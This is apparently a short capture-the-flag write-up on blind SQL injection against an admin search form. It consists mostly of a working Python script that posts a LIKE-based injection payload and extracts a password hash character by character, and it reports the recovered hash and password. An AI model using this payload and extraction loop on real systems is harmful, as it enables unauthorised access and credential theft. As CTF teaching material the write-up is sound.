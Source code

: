 # Sql db 3

Blind sql

```python
import requests

url = 'http://joe-cv.threatsims.com/admin/search'
myobj = {'search': "pp' or password like '%"}
myobj = {}
passwd = "#"
for i in range(64):
    for j in "1234567890abcdef":
        passwd = passwd[:-1] + j
        myobj["search"] = "pp' or password like '" + passwd + "%"
        x = requests.post(url, data = myobj)

        a = x.text
        if "joe" in a:
            print(passwd)
            passwd += "#"
            break

    if j == "f" and passwd[-1] != "#":
          break
```

It gives 248b57c5cabbc9944d169d10bc4959a042d0bb81ab6cfc9166f40a9d0f0fd614 which is hash of "tigers"

